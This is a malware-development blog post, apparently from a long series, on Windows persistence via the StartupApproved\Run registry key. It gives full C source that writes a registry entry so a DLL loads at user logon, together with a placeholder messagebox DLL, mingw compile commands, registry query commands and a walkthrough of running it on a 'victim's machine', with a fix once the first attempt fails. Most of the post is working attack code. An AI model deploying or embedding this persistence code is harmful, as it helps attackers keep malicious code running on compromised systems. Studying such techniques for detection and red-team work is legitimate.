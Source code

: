 \newpage
\subsection{90. malware development: persistence - part 24. StartupApproved. Simple C example.}

﷽

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

This post is based on my own research into one of the another interesting malware persistence tricks: via StartupApproved Registry key.     

### StartupApproved

The very first post in the series about persistence, I wrote about one of the most popular and already classic techniques, via [Registry Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).      

An uncommon Registry entry utilized by the standard "startup" process (i.e., the one mostly controlled by Windows Explorer, such as the `Run` and `RunOnce` keys, the Startup folder, etc.) after `userinit.exe` completes its operation, is located at the following location in the Registry:    

```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Turns out, this key is populated when entries are enabled or disabled via the Windows Task Manager's `Startup` tab:     

![pers](./images/117/2024-03-15_00-47.png){width="80%"}    

The good news is that we can use this registry path for persistence.     

### practical example

First of all, check Registry keys by the following command:    

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved"
 /s
```

![pers](./images/117/2024-03-14_23-57_1.png){width="80%"}    

At the next step, as usually, create our "evil" application (`hack.c`):     

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, just `meow-meow` messagebox.      

Then we just modifying our  `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved` registry key, like this (`pers.c`):     

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

As you can the the logic of our Proof of Concept is pretty simple - we set the value of the registry entry to `0x02 0x00...` binary value.      

### demo

Let's go to see everything in action. First of all, compile our "malware" DLL:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

![pers](./images/117/2024-03-14_21-50.png){width="80%"}    

Then, compile our PoC:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/117/2024-03-14_21-51.png){width="80%"}    

Finally, run it on the victim's machine. In my case, for Windows 10 x64 v1903 VM, it is looks like this:     

```powershell
.\pers.exe
```

![pers](./images/117/2024-03-15_00-46.png){width="80%"}    

As you can see, I also checked registry again:     

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" 
/s
```

![pers](./images/117/2024-03-15_00-46_1.png){width="80%"}    

Then, logout and login again:     

![pers](./images/117/2024-03-15_00-50.png){width="80%"}    

![pers](./images/117/2024-03-15_00-51.png){width="80%"}    

But unexpectedly it didn't work for me...    

Then, I just update the name of entry:     

![pers](./images/117/2024-03-15_00-54.png){width="80%"}    

Logout and login, little bit wait.... and it's worked perfectly....

![pers](./images/117/2024-03-15_01-03.png){width="80%"}    

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

So I updated one line in my script:    

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

But there is a caveat. Sometimes when I tested this feature, it launched like Skype for me:     

![pers](./images/117/2024-03-14_23-56.png){width="80%"}    

![pers](./images/117/2024-03-14_23-57.png){width="80%"}    

As you can see, everything worked perfectly as expected! =^..^= :)    

This technique is used by APT groups like [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) and [APT33](https://attack.mitre.org/groups/G0064/) in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     
